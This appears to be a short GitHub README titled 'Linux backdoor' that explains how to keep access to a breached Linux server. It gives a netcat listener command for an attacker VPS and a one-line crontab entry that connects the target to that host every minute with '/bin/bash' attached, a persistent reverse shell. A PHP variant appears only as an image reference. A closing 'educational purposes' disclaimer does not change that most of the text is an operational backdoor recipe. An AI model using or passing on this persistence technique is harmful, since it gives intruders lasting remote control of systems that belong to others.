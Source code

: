 
Linux  backdoor
* You need vps(aws).
### Linux/Ubuntu
* On the VPS run netcat listener   nc -lnvp 4444   (you can type whatever port you want).
* When you have reverse shell or php shell with remote code execution allowed on the target server use this script to create a cronjob which
 connect your target to your VPS in every 1 minute.
* This is for reverse shell:
* echo "*/1 * * * *  nc your_vps_public_IP the_port_for_netcat  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
* This is for php shell:

![alt image](php.png)

### Only for educational purposes!
### Use it on your own server!
